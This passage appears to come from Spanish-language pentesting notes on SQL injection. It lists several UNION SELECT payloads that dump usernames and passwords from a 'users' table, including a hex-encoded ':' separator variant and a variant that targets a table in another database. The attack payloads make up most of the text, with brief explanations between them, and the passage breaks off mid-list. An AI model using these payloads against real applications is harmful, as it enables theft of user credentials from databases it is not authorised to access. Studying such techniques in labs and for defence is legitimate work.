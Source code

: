 Con esto listamos las columnas que se encuentran dentro de la tabla `users`...

```mysql
' union select group_concat(username,':',password),NULL from users-- -
```

o

```mysql
' union select 'username',NULL from users-- -

' union select 'password',NULL from users-- -
```

o

```mysql
' union select username||':'||password,NULL from users-- -
```

o

```mysql
' union select group_concat(username,0x3a,password),NULL from users-- -
```

Este ultimo ejemplo es por si no admitiera concatenar la informacion de las columnas con separaciones de `:` se podria poner los `:` pero de manera hexadecimal y su valor seria...

```
: = 3A ==> : = 0x3a
```

Esto se puede mirar en la terminal y filtrando por los `:` poniendo...

```shell
man ascii

#Dentro de esa interfaz
/:
```

o

```shell
man ascii | grep ':'
```

Pero si queremos ver el contenido de la tabla `users` pero esa tabla no se encuentra en la base de datos donde estamos inyectando el codigo de `mysql` tendriamos que conocer el nombre de esa base de datos y hacer lo siguiente...

```mysql
' union select group_concat(username,':',password),NULL from database.users-- -
```

o

```mysql
' union select 'username',NULL from database.users-- -
```

o

